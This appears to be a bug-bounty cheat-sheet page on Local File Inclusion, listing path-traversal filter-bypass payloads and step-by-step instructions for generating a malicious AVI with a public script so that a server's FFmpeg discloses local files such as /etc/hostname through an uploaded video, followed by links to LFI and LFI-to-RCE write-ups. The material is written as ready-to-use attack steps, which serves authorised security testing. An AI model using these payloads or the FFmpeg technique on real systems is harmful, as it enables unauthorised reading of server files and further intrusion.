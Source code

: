 ## LFI

**Filter Bypass**

```
../\
```

```
..\/
```

```
/..
```

```
\/..
```

```
/%5c..
```

**FFmpeg Local File Disclosure**

This [script](https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py) by @neex can be used to disclose local files on FFmpeg hosts which parse externally-referencing [HLS playlists](https://ffmpeg.org/ffmpeg-formats.html#hls-2).

_Steps to reproduce_

1. Please download the script from @neex to your "attacker" instance
2. Execute the script with your desired parameters: `python3 gen_xbin_avi.py file:///etc/hostname bugbounty.avi`
3. Upload the generated AVI file to your target site (e.g. within a 'video upload page')
4. The target may process the malicious HLS inclusion with FFmpeg on the server-side.
5. Play the uploaded AVI via the target site. If successful, your desired file will be disclosed within the video.

Alternative scripts exist which may generate different HLS formats or lead to the desired file being disclosed in a different manner.

**Blogs**
* http://pastie.org/840199
* http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
* http://www.notsosecure.com/folder2/2010/08/20/lfi-code-exec-remote-root/?utm_source=twitterfeed&utm_medium=twitter
* http://labs.neohapsis.com/2008/07/21/local-file-inclusion-%E2%80%93-tricks-of-the-trade/
* http://www.digininja.org/blog/when_all_you_can_do_is_read.php

(**LFI to RCE**)[https://ibb.co/ntk0mR]
